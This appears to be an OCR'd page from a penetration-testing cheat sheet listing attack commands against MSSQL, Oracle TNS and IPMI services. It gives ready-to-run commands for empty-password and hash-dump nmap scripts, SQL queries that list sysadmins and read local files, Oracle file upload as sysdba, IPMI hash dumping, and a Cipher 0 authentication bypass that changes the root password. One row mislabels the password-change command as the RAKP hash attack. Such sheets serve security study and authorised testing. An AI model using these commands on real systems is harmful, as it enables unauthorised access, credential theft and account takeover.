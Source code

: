 | **Command**                                                                                                                                                                                                                                                                                 | **Description**                                          |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------- |
| `nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 $ip` | Enumerate                                                |
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth`                                                                                                                                                                                                                                             | Log in to the MSSQL server using Windows authentication. |

```
# Get Microsoft SQL server version
select @@version;

# Get usernames
select user_name()
go 

# Get databases
SELECT name FROM master.dbo.sysdatabases
go

# Get current database
SELECT DB_NAME()
go

# Get a list of users in the domain
SELECT name FROM master..syslogins
go

# Get a list of users that are sysadmins
SELECT name FROM master..syslogins WHERE sysadmin = 1
go

# And to make sure: 
SELECT is_srvrolemember(‘sysadmin’)
go
# If your user is admin, it will return 1.

# Read Local Files in MSSQL
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```


#### Oracle TNS

| **Command**                                                                                                                  | **Description**                                                                                         |
| ---------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------- |
| `python3 ./odat.py all -s <FQDN/IP>`                                                                                         | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>`                                                                                       | Log in to the Oracle database.                                                                          |
| `python3 ./odat.py utlfile -s <FQDN/IP> -d <db> -U <user> -P <pass> --sysdba --putFile C:\\insert\\path file.txt ./file.txt` | Upload a file with Oracle RDBMS.                                                                        |


#### IPMI

| **Command**                                                                                            | **Description**                                                                                                                                         |
| ------------------------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------- |
| nmap -n-sU -p 623 $ip/24                                                                               | Enumerate in a network range                                                                                                                            |
| sudo nmap -sU --script ipmi* -p 623 $ip                                                                | Run all nmap scripts related to ipmi protocol                                                                                                           |
| `msf6 auxiliary(scanner/ipmi/ipmi_version)`                                                            | IPMI version detection.                                                                                                                                 |
| `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)`                                                         | Dump IPMI hashes. Similar to the The IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval attack                                                 |
| apt-get install ipmitool<br>ipmitool -I lanplus -C 0 -H  $ip -U root -P root user list                 | **The IPMI Authentication Bypass via Cipher 0 attack**<br>Install ipmitool and use Cipher 0 to dump a list of users. With -C 0 any password is accepted |
| apt-get install ipmitool<br>ipmitool -I lanplus -C 0 -H $ip -U root -P root user set password 2 abc123 | **The IPMI 2.0 RAKP Authentication Remote Password Hash Retrieval attack** <br>Install ipmitool and change the password of root                         |